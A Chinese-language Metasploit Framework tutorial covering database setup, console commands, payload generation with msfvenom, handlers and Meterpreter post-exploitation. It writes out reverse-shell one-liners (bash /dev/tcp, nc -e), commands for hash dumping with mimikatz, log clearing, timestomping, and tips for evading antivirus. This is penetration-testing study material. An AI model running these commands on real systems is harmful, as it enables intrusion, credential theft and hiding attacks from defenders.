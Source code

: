 # Metasploit

该工具存在免费版本 Metasploit Framework 和付费版本 Metasploit Pro, 后者提供了许多实用的专业功能, 但是天价. 以下内容均以 Metasploit Framework(MSF) 为例.  

## 数据库

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.  

```sh
# Arch/Manjaro
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

# Kali
sudo service postgresql start  # 启用数据库服务
sudo service postgresql status # 检查数据库服务状态

msfdb status # 检查数据库服务状态, 包括监听端口
msfdb init   # 初始化数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.  

之后便可以使用数据库相关指令, 关键信息(如主机/服务/漏洞/战利品)会被记录到数据库中以便后续查询.  

## 快速入门

```sh
# 数据库/工作区
msf > workspace [name]             # 切换工作区
msf > workspace -a [name]          # 添加工作区
msf > db_nmap [...]                # 调用 nmap 进行扫描, 比将结果保存到当前工作区
msf > db_export -f [format] [file] # 将当前工作区中的数据以指定格式(通常是 xml)导出到文件中, 导出结果可能为空, 需要进行检查

# 查找/选择 module
msf > search [[type:]keyword] # 搜索 module
msf > use [id/module]         # 使用 module, module 的名称或 search 指令结果中的 id
msf > use [id/module]         # 显示 module 的详细信息.
msf > setg [option] [value]   # 设置默认选项, 避免切换 module 时重复填写不变的参数

# 使用 module
msf(module) > options                 # 显示当前 module 的选项
msf(module) > info                    # 显示当前 module 的详细信息
msf(module) > show [option]           # 显示选项的可用选项
msf(module) > set [option] [id/value] # 设置选项, 选项的值或 show 指令结果中的 id
msf(module) > check                   # 部分 exploit module 支持, 用于验证 RHOSTS 是否可以被利用
msf(module) > run                     # 执行 module

# 会话管理
msf > sessions         # 列出会话, -l
msf > sessions [id]    # 打开会话, -i
msf > sessions -u [id] # 将 shell 升级到 meterpreter

# 故障排除
msf > setg LogLevel 5          # 日志详细等级, 范围 1-5
cat ~/.msf6/logs/framework.log # 查看日志
msf > debug                    # 显示诊断信息, 在故障发生后使用
```

更多内容请参考扩展中的 Metasploit Cheat Sheet.  

## 载荷

**别名**: 攻击载荷, 有效载荷.  

MSF 中的载荷(payload)共有以下三种:  

- Singles: 包含完整的功能, 不依赖 MSF, 因此不需要通过 exploit/multi/handler 来建立连接.
- Stagers: 小巧可靠, 用于建立连接并接收 Stages.
    - bind: 正向连接, MSF 主动尝试与目标中的 stager 建立连接.
    - reverse: 反向连接, 目标中的 stager 尝试与 MSF 连接. 可以绕过部分防火墙规则.
    - https: 伪装成正常 HTTPS 流量进行通讯. 可以绕过部分防火墙规则且更难被探测器识别.
- Stages: 无大小限制, 包含高级功能.

在遇见 "载荷" 一词时应结合上下文推断具体含义.  
命名规则是 `<platform>/[arch]/<single>` 和 `<platform>/[arch]/<stage>/<stager>`, 比如 `windows/x64/meterpreter/reverse_tcp` 就代表 Windows 下使用 x64 指令集编写的使用 tcp 协议反向建立连接的 stager, 用于接收 meterpreter 这个 stage.  

### 生成载荷

使用 msfvenom(msfpayload 和 msfencode 的替代品) 来生成载荷, 详情请参考[官方教程](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).  
需要根据具体情况(包括漏洞利用方式, 架构, 系统, 环境, 通讯方式等)选择合适的载荷/编码器/格式等其他参数.  

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=[LHOST] LPORT=[LPORT] rc4password=[password] -f exe -o ~/payload.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp     LHOST=[LHOST] LPORT=[LPORT]                        -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp       LHOST=[LHOST] LPORT=[LPORT]                        -f elf -o ~/payload

msfvenom -l payload  # 查看载荷, 根据目标进行选择
msfvenom -l format   # 查看格式, 可以是可执行文件/脚本, 也可以只是用于源代码的 shellcode 代码片段
msfvenom -l encoders # 查看编码器
```

除了上传可执行文件到目标并执行, 也可以直接利用目标上的命令来获取 shell, 然后再将 shell 升级为 meterpreter.  

```sh
bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1
nc [LHOST] [LPORT] -e /bin/sh
```

选择 shell_reverse_tcp 作为载荷并建立连接.  

除了直接生成可执行文件/脚本, msfvenom 也可以直接生成 shellcode. 常用选项:  

- -a 指定架构.
- --platform 指定操作系统.
- -e 指定编码器.
- -i 指定编码次数.
- -b 指定 bad chars.
- -s 指定最大大小.
- --smallest 生成最小的.

### 建立连接

使用 handler 来与目标中的 stager 建立连接, 并上传 stage.  

```sh
msf > use exploit/multi/handler
msf > set payload [id/value]
# ... 设置载荷中的参数 ...
msf > set ExitOnSession false # 建立连接后不结束监听
msf > run -j                  # 开始监听并作为后台任务运行, 因为这是一个堵塞操作
```

## [Meterpreter](https://github.com/rapid7/metasploit-payloads)

Meterpreter 是一种特殊的多功能载荷, 可以动态加载/执行/卸载脚本和插件, 充分利用其功能可以使后渗透攻击变得十分方便.  
以下列举几个常用功能:  

```sh
# 权限提升
meterpreter > getsystem [...]   # 自动提权
meterpreter > steal_token [pid] # 通过窃取拥有更高权限的进程的令牌提权

# 获取密码
meterpreter > load mimikatz                          # 载入 mimikatz
meterpreter > run post/windows/gather/smart_hashdump # 导出账户密码 hash

# 清除痕迹
meterpreter > clearev         # 清除应用/系统/安全日志
meterpreter > timestomp [...] # 编辑文件属性(包括创建/最后修改时间)

# 使用 module
meterpreter > search type:post  # 列出 post module
meterpreter > run [module]      # 执行 module, 主要位于 "post/[system]" 下
```

## 故障排除

- Meterpreter 会话意外关闭, 返回原因 Died / exploit/multi/handler 无法和目标建立连接 / 目标上的接收器发生段错误, 可能是又以下几个原因导致的:  

    - MSF 和 Meterpreter 的版本不兼容: 解决方法是确保版本相同.
    - 载荷不匹配: 该问题会导致目标上的 Stagers 发生段错误, exploit/multi/handler 中设置的载荷(类型/系统/架构)与目标上期待的不一致, 解决方法是确保载荷一致.
    - 被安全软件终止: 该问题会导致会话成功建立却意外关闭, 可能的解决方法有:  

        1. 转移进程: 通过 `set AutoRunScript "migrate -n explorer.exe"` 在链接建立后立即转移到其他进程, 以规避安全软件的检测.
        2. 混淆: 生成载荷时使用编码器混淆并加密代码, 以规避安全软件对内存中代码的特征检测. 或通过 `set EnableStageEncoding true` 对发送的 stage 进行编码, 以规避安全软件对流量特征的识别.

- msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:  

    ```
    [blackarch]
    SigLevel = Optional TrustAll
    Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
    ```

## 参见

- [Metasploit Documentation](https://docs.metasploit.com/)
- [Metasploit Cheat Sheet](https://www.comparitech.com/net-admin/metasploit-cheat-sheet/)
- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>
- [mimikatz](https://github.com/ParrotSec/mimikatz)

## 参考

- <https://www.offensive-security.com/metasploit-unleashed/payloads/>
